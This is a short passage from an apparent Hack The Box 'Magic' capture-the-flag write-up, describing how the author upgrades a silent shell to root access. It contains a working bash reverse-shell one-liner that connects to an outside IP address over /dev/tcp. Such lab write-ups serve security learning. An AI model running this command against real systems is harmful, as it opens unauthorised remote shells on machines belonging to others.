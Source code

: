 However, the shell doesn't seem to output anything.

![23af8535782afe77345a2989f4f52e29.png](/images/htb-magic/e42799bad3b645b5bcb8c7f71c2f3636.png)

Let's try executing a bash reverse shell from the "half" shell by running:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.43/8888 0>&1'
```
And there we go. We got root.
![4a7dbba326bc1cb759cbd5d860d56e24.png](/images/htb-magic/ad10051ba5174b9895d1abc7a96bb876.png)